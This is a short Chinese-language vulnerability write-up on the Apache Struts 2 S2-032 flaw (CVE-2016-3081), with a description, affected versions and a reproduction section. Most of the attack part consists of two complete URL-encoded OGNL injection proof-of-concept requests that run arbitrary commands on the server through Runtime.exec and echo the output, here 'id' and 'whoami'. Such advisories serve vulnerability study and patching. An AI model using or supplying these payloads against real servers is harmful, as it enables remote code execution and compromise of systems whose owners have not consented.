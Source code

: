 （CVE-2016-3081）s2-032
=======================

一、漏洞简介
------------

当启用动态方法调用时，可以传递可用于在服务器端执行任意代码的恶意表达式。method: Action 前缀去调用声明为 public 的函数，只不过在低版本中 Strtus2
不会对 name 方法值做 OGNL 计算，而在高版本中会。

二、漏洞影响
------------

Struts 2.3.20 - Struts Struts 2.3.28（2.3.20.3和2.3.24.3除外）

三、复现过程
------------

需要开启动态方法调用

使用?method:execute的方式调用execute方法（execute方法是struts2中默认的action调用方法），在method:后面加上我们要执行的ognl表达式即可执行任意代码了

光有回显 poc

    http://www.0-sec.org/memoindex.action?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&pp=%5C%5CA&ppp=%20&encoding=UTF-8&cmd=id
    /memoindex.action?method:%23_memberAccess%3D%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS%2C%23res%3D%40org.apache.struts2.ServletActionContext%40getResponse()%2C%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D)%2C%23w%3D%23res.getWriter()%2C%23a%3Dnew%20java.util.Scanner(%40java.lang.Runtime%40getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.d%5B0%5D)%2C%23str%3D%23a.hasNext()%3F%23a.next()%3A%23parameters.dd%5B0%5D%2C%23w.print(%23str)%2C%23w.close()%2C%23request.toString&cmd=whoami&dd=%20&d=____A&encoding=UTF-8
